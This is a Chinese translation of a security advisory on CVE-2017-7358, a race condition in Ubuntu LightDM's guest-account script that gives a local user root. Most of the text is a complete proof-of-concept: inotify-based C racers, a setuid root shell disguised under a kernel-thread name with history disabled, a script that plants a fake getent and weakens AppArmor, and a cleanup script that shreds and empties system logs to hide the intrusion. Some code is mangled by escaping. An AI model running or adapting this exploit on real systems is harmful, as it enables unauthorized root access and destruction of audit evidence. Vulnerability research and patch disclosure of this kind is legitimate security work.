

# 【漏洞分析】Ubuntu LightDM访客账户本地权限提升漏洞（含PoC）


                                阅读量   
                                **80618**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：securiteam.com
                                <br>原文地址：[https://blogs.securiteam.com/index.php/archives/3134](https://blogs.securiteam.com/index.php/archives/3134)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/85921/t017c4b0930852a8d00.jpg)

****

翻译：[興趣使然的小胃](http://bobao.360.cn/member/contribute?uid=2819002922)

预估稿费：100RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**一、漏洞概要**

**Ubuntu 16.10/16.04 LTS版本的LightDM中存在一个本地权限提升漏洞（**[**CVE-2017-7358**](https://nvd.nist.gov/vuln/detail/CVE-2017-7358)**）。**

Ubuntu是一个开源的操作系统，可以运行在多种平台上，比如在物联网（IoT）设备、智能手机、平板电脑、PC、服务器以及云计算都可以看到它的身影。LightDM（Light Display Manager）是一个X显示管理器（X Display Manager，XDM），旨在为用户提供一种轻量级的、快速的、可扩展的和多桌面化的显示管理器。LightDM可以使用多种前端来绘制登录界面（也可以叫做Greeters）。

<br>

**二、漏洞细节**

漏洞位于LightDM中，具体来说，是位于访客登陆功能中。默认情况下，LightDM允许用户以临时用户方式登录系统，此项功能具体实现位于“guest-account”脚本中。


```
@ubuntu:~$ ls -l /usr/sbin/guest-account
-rwxr-xr-x 1 root root 6516 Sep 29 18:56 /usr/sbin/guest-account
@ubuntu:~$ dpkg -S /usr/sbin/guest-account
lightdm: /usr/sbin/guest-account
@ubuntu:~$ dpkg -s lightdm
Package: lightdm
Status: install ok installed
Priority: optional
Section: x11
Installed-Size: 672
Maintainer: Robert Ancell &lt;robert.ancell@ubuntu.com&gt;
Architecture: amd64
Version: 1.19.5-0ubuntu1
Provides: x-display-manager
Depends: debconf (&gt;= 0.5) | debconf-2.0, libc6 (&gt;= 2.14), libgcrypt20 (&gt;= 1.7.0), libglib2.0-0 (&gt;= 2.39.4), libpam0g (&gt;= 0.99.7.1), libxcb1, libxdmcp6, adduser, bash (&gt;= 4.3), dbus, libglib2.0-bin, libpam-runtime (&gt;= 0.76-14), libpam-modules, plymouth (&gt;= 0.8.8-0ubuntu18)
Pre-Depends: dpkg (&gt;= 1.15.7.2)
Recommends: xserver-xorg, unity-greeter | lightdm-greeter | lightdm-kde-greeter
Suggests: bindfs
Conflicts: liblightdm-gobject-0-0, liblightdm-qt-0-0
Conffiles:
 /etc/apparmor.d/abstractions/lightdm a715707411c3cb670a68a4ad738077bf
 /etc/apparmor.d/abstractions/lightdm_chromium-browser e1195e34922a67fa219b8b95eaf9c305
 /etc/apparmor.d/lightdm-guest-session 3c7812f49f27e733ad9b5d413c4d14cb
 /etc/dbus-1/system.d/org.freedesktop.DisplayManager.conf b76b6b45d7f7ff533c51d7fc02be32f4
 /etc/init.d/lightdm be2b1b20bec52a04c1a877477864e188
 /etc/init/lightdm.conf 07304e5b3265b4fb82a2c94beb9b577e
 /etc/lightdm/users.conf 1de1a7e321b98e5d472aa818893a2a3e
 /etc/logrotate.d/lightdm b6068c54606c0499db9a39a05df76ce9
 /etc/pam.d/lightdm 1abe2be7a999b42517c82511d9e9ba22
 /etc/pam.d/lightdm-autologin 28dd060554d1103ff847866658431ecf
 /etc/pam.d/lightdm-greeter 65ed119ce8f4079f6388b09ad9d8b2f9
Description: Display Manager
 LightDM is a X display manager that:
  * Has a lightweight codebase
  * Is standards compliant (PAM, ConsoleKit, etc)
  * Has a well defined interface between the server and user interface
  * Cross-desktop (greeters can be written in any toolkit)
Homepage: https://launchpad.net/lightdm
@ubuntu:~$
```

当你在登录界面以访客身份登录时，系统就会以root身份运行此脚本。Ubuntu的默认登录界面是Unity Greeter。

存在漏洞的函数是“add_account”。


```
35   temp_home=$(mktemp -td guest-XXXXXX)
36   GUEST_HOME=$(echo ${temp_home} | tr '[:upper:]' '[:lower:]')
37   GUEST_USER=${GUEST_HOME#/tmp/}
38   [ ${GUEST_HOME} != ${temp_home} ] &amp;&amp; mv ${temp_home} ${GUEST_HOME}
```

上述代码的第35行，脚本使用“mktemp”命令创建访客文件夹。我们可以通过“inotify”机制监控“/tmp”文件夹，实时发现这种文件夹的创建。

这种文件夹的名称可能包含大写和小写字母。我们发现系统创建此文件夹后，可以快速获取文件夹名称，创建一个名称相同、但字母全部为小写的等效文件夹。

如果我们速度足够快，就可以赶在38行的“mv”命令执行之前，将访客账户的主文件目录劫持到新创建的等效文件夹。

一旦我们控制了访客账户的主文件目录后，我们重命名此目录，替换为指向我们想要控制的另一个目录的符号链接。以下代码会将新用户添加到操作系统中，此时，用户的主目录已经指向我们想要控制的目录，例如“/usr/local/sbin”目录。


```
68    useradd --system --home-dir ${GUEST_HOME} --comment $(gettext "Guest") --user-group --shell /bin/bash ${GUEST_USER} || {
69      rm -rf ${GUEST_HOME}
70      exit 1
71    }
```

攻击者可以抓取新创建用户的ID，监控“/usr/local/sbin”目录的所有权更换情况。如下代码中的“mount”命令会导致目录所有权发生改变。


```
78  mount -t tmpfs -o mode=700,uid=${GUEST_USER} none ${GUEST_HOME} || {
79    rm -rf ${GUEST_HOME}
80    exit 1
81  }
```

此时我们可以移除符号链接，使用相同名称创建一个目录，以便访客用户登录系统。访客用户成功登录后，可执行文件的查找路径中会包含用户主目录下的“bin”目录。

这就是为什么我们要创建一个新的符号链接，将访客用户的“bin”目录指向我们希望控制的那个文件目录。这样我们就可以迫使用户以他的user ID执行我们自己的代码。我们使用这种方式注销访客用户的登录会话，这个会话也是我们获取root访问权限的位置所在。

注销代码首先会执行如下代码：


```
156  PWENT=$(getent passwd ${GUEST_USER}) || {
157    echo "Error: invalid user ${GUEST_USER}"
158    exit 1
159  }
```

系统会使用脚本所有者身份（也就是root身份）执行这段代码。由于我们已经掌控了“/usr/local/sbin”目录，并且植入了我们自己的“getent”程序，我们此时已经可以使用root权限执行命令。

顺便提一句，我们可以使用以下两条命令，触发访客会话创建脚本的执行。


```
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool lock
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool switch-to-guest
```


**三、PoC**

漏洞PoC包含9个文件，如下所示：


```
kodek/bin/cat
kodek/shell.c
kodek/clean.sh
kodek/run.sh
kodek/stage1.sh
kodek/stage1local.sh
kodek/stage2.sh
kodek/boclocal.c
kodek/boc.c
```

攻击者可以运行如下命令，获取root权限：


```
@ubuntu:/var/tmp/kodek$ ./stage1local.sh 
@ubuntu:/var/tmp/kodek$ 
[!] GAME OVER !!!
[!] count1: 2337 count2: 7278
[!] w8 1 minute and run /bin/subash
@ubuntu:/var/tmp/kodek$ /bin/subash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~#
```

如果漏洞利用失败，你只需要再重新运行一次利用代码即可。

root shell获取成功后，你可以根据需要决定是否清理漏洞利用文件及日志，清理命令如下：


```
root@ubuntu:/var/tmp/kodek# ./clean.sh 
/usr/bin/shred: /var/log/audit/audit.log: failed to open for writing: No such file or directory
Do you want to remove exploit (y/n)?
y
/usr/bin/shred: /var/tmp/kodek/bin: failed to open for writing: Is a directory
root@ubuntu:/var/tmp/kodek#
```

具体代码如下。

boc.c


```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;ctype.h&gt;
#include &lt;sys/inotify.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;pwd.h&gt;
#define EVENT_SIZE(sizeof(struct inotify_event))
#define EVENT_BUF_LEN(1024 * (EVENT_SIZE + 16))
int main(void) {
  struct stat info;
  struct passwd * pw;
  struct inotify_event * event;
  pw = getpwnam("root");
  if (pw == NULL) exit(0);
  char newpath[20] = "old.";
  int length = 0, i, fd, wd, count1 = 0, count2 = 0;
  int a, b;
  char buffer[EVENT_BUF_LEN];
  fd = inotify_init();
  if (fd &lt; 0) exit(0);
  wd = inotify_add_watch(fd, "/tmp/", IN_CREATE | IN_MOVED_FROM);
  if (wd &lt; 0) exit(0);
  chdir("/tmp/");
  while (1) {
    length = read(fd, buffer, EVENT_BUF_LEN);
    if (length &gt; 0) {
      event = (struct inotify_event * ) buffer;
      if (event - &gt; len) {
        if (strstr(event - &gt; name, "guest-") != NULL) {
          for (i = 0; event - &gt; name[i] != ''; i++) {
            event - &gt; name[i] = tolower(event - &gt; name[i]);
          }
          if (event - &gt; mask &amp; IN_CREATE) mkdir(event - &gt; name, ACCESSPERMS);
          if (event - &gt; mask &amp; IN_MOVED_FROM) {
            rename(event - &gt; name, strncat(newpath, event - &gt; name, 15));
            symlink("/usr/local/sbin/", event - &gt; name);
            while (1) {
              count1 = count1 + 1;
              pw = getpwnam(event - &gt; name);
              if (pw != NULL) break;
            }
            while (1) {
              count2 = count2 + 1;
              stat("/usr/local/sbin/", &amp; info);
              if (info.st_uid == pw - &gt; pw_uid) {
                a = unlink(event - &gt; name);
                b = mkdir(event - &gt; name, ACCESSPERMS);
                if (a == 0 &amp;&amp; b == 0) {
                  printf("n[!] GAME OVER !!!n[!] count1: %i count2: %in", count1, count2);
                } else {
                  printf("n[!] a: %i b: %in[!] exploit failed !!!n", a, b);
                }
                system("/bin/rm -rf /tmp/old.*");
                inotify_rm_watch(fd, wd);
                close(fd);
                exit(0);
              }
            }
          }
        }
      }
    }
  }
}
```

boclocal.c


```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;ctype.h&gt;
#include &lt;sys/inotify.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;pwd.h&gt;
#define EVENT_SIZE(sizeof(struct inotify_event))
#define EVENT_BUF_LEN(1024 * (EVENT_SIZE + 16))
int main(void) {
  struct stat info;
  struct passwd * pw;
  struct inotify_event * event;
  pw = getpwnam("root");
  if (pw == NULL) exit(0);
  char newpath[20] = "old.";
  int length = 0, i, fd, wd, count1 = 0, count2 = 0;
  int a, b, c;
  char buffer[EVENT_BUF_LEN];
  fd = inotify_init();
  if (fd &lt; 0) exit(0);
  wd = inotify_add_watch(fd, "/tmp/", IN_CREATE | IN_MOVED_FROM);
  if (wd &lt; 0) exit(0);
  chdir("/tmp/");
  while (1) {
    length = read(fd, buffer, EVENT_BUF_LEN);
    if (length &gt; 0) {
      event = (struct inotify_event * ) buffer;
      if (event - &gt; len) {
        if (strstr(event - &gt; name, "guest-") != NULL) {
          for (i = 0; event - &gt; name[i] != ''; i++) {
            event - &gt; name[i] = tolower(event - &gt; name[i]);
          }
          if (event - &gt; mask &amp; IN_CREATE) mkdir(event - &gt; name, ACCESSPERMS);
          if (event - &gt; mask &amp; IN_MOVED_FROM) {
            rename(event - &gt; name, strncat(newpath, event - &gt; name, 15));
            symlink("/usr/local/sbin/", event - &gt; name);
            while (1) {
              count1 = count1 + 1;
              pw = getpwnam(event - &gt; name);
              if (pw != NULL) break;
            }
            while (1) {
              count2 = count2 + 1;
              stat("/usr/local/sbin/", &amp; info);
              if (info.st_uid == pw - &gt; pw_uid) {
                a = unlink(event - &gt; name);
                b = mkdir(event - &gt; name, ACCESSPERMS);
                c = symlink("/var/tmp/kodek/bin/", strncat(event - &gt; name, "/bin", 5));
                if (a == 0 &amp;&amp; b == 0 &amp;&amp; c == 0) {
                  printf("n[!] GAME OVER !!!n[!] count1: %i count2: %in[!] w8 1 minute and run /bin/subashn", count1, count2);
                } else {
                  printf("n[!] a: %i b: %i c: %in[!] exploit failed !!!n[!] w8 1 minute and run it againn", a, b, c);
                }
                system("/bin/rm -rf /tmp/old.*");
                inotify_rm_watch(fd, wd);
                close(fd);
                exit(0);
              }
            }
          }
        }
      }
    }
  }
}
```

clean.sh


```
#!/bin/bash
if [ "$(/usr/bin/id -u)" != "0" ]; then
   echo "This script must be run as root" 1&gt;&amp;2
   exit 1
fi
/bin/rm -rf /tmp/guest-* /tmp/old.guest-*
/usr/bin/shred -fu /var/tmp/run.sh /var/tmp/shell /var/tmp/boc /var/log/kern.log /var/log/audit/audit.log /var/log/lightdm/*
/bin/echo &gt; /var/log/auth.log
/bin/echo &gt; /var/log/syslog
/bin/dmesg -c &gt;/dev/null 2&gt;&amp;1
/bin/echo "Do you want to remove exploit (y/n)?"
read answer
if [ "$answer" == "y" ]; then
/usr/bin/shred -fu /var/tmp/kodek/* /var/tmp/kodek/bin/*
/bin/rm -rf /var/tmp/kodek
else
exit
fi
run.sh
#!/bin/sh
/bin/cat &lt;&lt; EOF &gt; /usr/local/sbin/getent
#!/bin/bash
/bin/cp /var/tmp/shell /bin/subash &gt;/dev/null 2&gt;&amp;1
/bin/chmod 4111 /bin/subash &gt;/dev/null 2&gt;&amp;1
COUNTER=0
while [ $COUNTER -lt 10 ]; do
/bin/umount -lf /usr/local/sbin/ &gt;/dev/null 2&gt;&amp;1
let COUNTER=COUNTER+1
done
/bin/sed -i 's//usr/lib/lightdm/lightdm-guest-session {//usr/lib/lightdm/lightdm-guest-session flags=(complain) {/g' /etc/apparmor.d/lightdm-guest-session &gt;/dev/null 2&gt;&amp;1
/sbin/apparmor_parser -r /etc/apparmor.d/lightdm-guest-session &gt;/dev/null 2&gt;&amp;1
/usr/bin/getent passwd "$2"
EOF
/bin/chmod 755 /usr/local/sbin/getent &gt;/dev/null 2&gt;&amp;1
```

shell.c


```
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;grp.h&gt;
int main(void)
{
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);
    setgroups(0, NULL);
    putenv("HISTFILE=/dev/null");
    execl("/bin/bash", "[bioset]", "-pi", NULL);
    return 0;
}
```

stage1.sh


```
#!/bin/bash
if [ "${PWD}" == "/var/tmp/kodek" ]; then
/usr/bin/killall -9 /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/killall -9 boc &gt;/dev/null 2&gt;&amp;1
/bin/sleep 3s
/usr/bin/shred -fu /var/tmp/run.sh /var/tmp/shell /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/gcc boc.c -Wall -s -o /var/tmp/boc
/usr/bin/gcc shell.c -Wall -s -o /var/tmp/shell
/bin/cp /var/tmp/kodek/run.sh /var/tmp/run.sh
/var/tmp/boc
else
echo "[!] run me from /var/tmp/kodek"
exit
fi
```

stage1local.sh


```
#!/bin/bash
if [ "${PWD}" == "/var/tmp/kodek" ]; then
/usr/bin/killall -9 /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/killall -9 boc &gt;/dev/null 2&gt;&amp;1
/bin/sleep 3s
/usr/bin/shred -fu /var/tmp/run.sh /var/tmp/shell /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/gcc boclocal.c -Wall -s -o /var/tmp/boc
/usr/bin/gcc shell.c -Wall -s -o /var/tmp/shell
/bin/cp /var/tmp/kodek/run.sh /var/tmp/run.sh
/var/tmp/boc &amp;
/bin/sleep 5s
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool lock
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool switch-to-guest
else
echo "[!] run me from /var/tmp/kodek"
exit
fi
```

stage2.sh


```
#!/bin/sh
/usr/bin/systemd-run --user /var/tmp/run.sh
/bin/cat
#!/bin/sh
/usr/bin/systemd-run --user /var/tmp/run.sh
/bin/sleep 15s
/bin/loginctl terminate-session `/bin/loginctl session-status | /usr/bin/head -1 | /usr/bin/awk '{ print $1 }'`
```


**四、其他说明**

独立安全研究员G. Geshev（@munmap）已将该漏洞提交至Beyond Security公司的SecuriTeam安全公告计划。厂商已经发布了补丁来修复此问题，更多细节可以参考[此链接](https://www.ubuntu.com/usn/usn-3255-1/)。
